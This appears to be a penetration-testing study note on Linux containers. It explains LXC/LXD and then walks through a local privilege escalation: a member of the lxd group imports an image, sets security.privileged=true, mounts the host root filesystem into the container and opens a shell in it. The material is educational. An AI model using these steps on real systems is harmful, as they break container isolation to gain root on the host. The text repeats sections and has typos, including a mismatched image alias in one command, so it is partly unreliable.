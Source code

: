 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
- [Linux Containers (LXC)](#linux\containers\(lxc))
  - [Linux Daemon](#Linux\Daemon)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
- [Linux Containers (LXC)](#linux\containers\(lxc))
  - [Linux Daemon](#Linux\Daemon)

## Table of Contents

- [Linux Containers (LXC)](#linux\containers\(lxc))
  - [Linux Daemon](#Linux\Daemon)

Containers operate the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to runs simultaneously on a single system

Isolation and virtualization are essential because they help to manage resources and security aspects as efficiently as possible. Ex: They facilitate monitoring to find errors in the system that often have nothing to do with newly developed applications. Another example would be the isolation of processes that usually require root privileges. This could be a web application or API that must be isolated from the host system to prevent escalation to databases.

# Linux Containers (LXC)
`LXC` is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security

- By default `LXC` consumes fewer resources than a virtual machine and have a standard interface, making it easy to manage multiple containers simultaneously.
- A platform with `LXC` can even be organized across multiple clouds, providing portability and ensuring that applications running correctly on the developer's system will work on any other system. Additonally, large applications can be started, stopped, or their environment variables changes via the Linux Container interface.
- The ease of use of `LXC` is their most significant advantage compared to classic cirtualization techniques. However, the enormous spread of `LXC` resulted in the created of tools such as `Docker`, which established Linux Containers. The entire setup, from creating container templates and deploying them, configuring the operating system and networking, to deploying applications, remains the same.

## Linux Daemon
`LXD` is similar in some respects but is designed to contain a complete operating system. Thus it's not an application container. Before we can use this service to escalate our privileges, we must be either the `lxc` or `lxd` group. We can find this out with the following:
```bash
$ id

```
From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.

Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

Linux Daemon

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls
```

- Often, templates do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, making it more difficult and thus slow it down considerably. 
```bash

lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

```bash
lxc init ubuntuemp privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

- Once we have configured/initiated the imaged with the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host

```bash
lxc start privesc

lxc exec privesc /bin/bash

ls -l /mnt/root
```





























